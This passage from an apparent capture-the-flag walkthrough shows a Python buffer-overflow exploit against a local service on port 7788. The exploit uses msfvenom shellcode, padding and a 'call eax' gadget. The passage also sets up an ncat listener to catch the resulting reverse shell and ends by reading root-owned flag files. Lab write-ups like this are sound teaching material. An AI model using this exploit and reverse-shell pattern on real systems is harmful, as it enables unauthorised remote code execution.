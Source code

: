 Next write up a python script for using the exploit:
{% highlight python %}
import socket
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 7788))
client.recv(512)
client.send("48093572\n")
client.recv(512)
client.send("3\n")
client.recv(512)

#shellcode from msfvenom

buf =  ""
buf += "\xd9\xc2\xba\xa6\xf9\x71\x23\xd9\x74\x24\xf4\x58\x2b"
buf += "\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x4e\x05\x93"
buf += "\xd6\xbf\x2d\xa3\xfa\xec\x92\x1f\x97\x10\x9c\x41\xd7"
buf += "\x72\x53\x01\x8b\x23\xdb\x3d\x61\x53\x52\x3b\x80\x3b"
buf += "\xc9\xab\xd3\x3b\x79\xce\x13\x2a\x27\x47\xf2\xfc\xb1"
buf += "\x07\xa4\xaf\x8e\xab\xcf\xae\x3c\x2b\x9d\x58\xd1\x03"
buf += "\x51\xf0\x45\x73\xba\x62\xff\x02\x27\x30\xac\x9d\x49"
buf += "\x04\x59\x53\x09"
#padding

buf += "A" * (168 - len(buf))

#call eax gadget
buf += "\x63\x85\x04\x08\n"

client.send(buf)

{% endhighlight %}

Now start ncat for the exploit:
{% highlight bash %}
ncat -lv 172.16.161.128 4445
{% endhighlight %}
Then run the script: python payload.py

We're in!
{% highlight bash %}
cd /root
cat Flag6.txt | base64 -d yeilds: ~GhostProtocols
cat TheEnd.txt outputs the final you won thing.
{% endhighlight %}
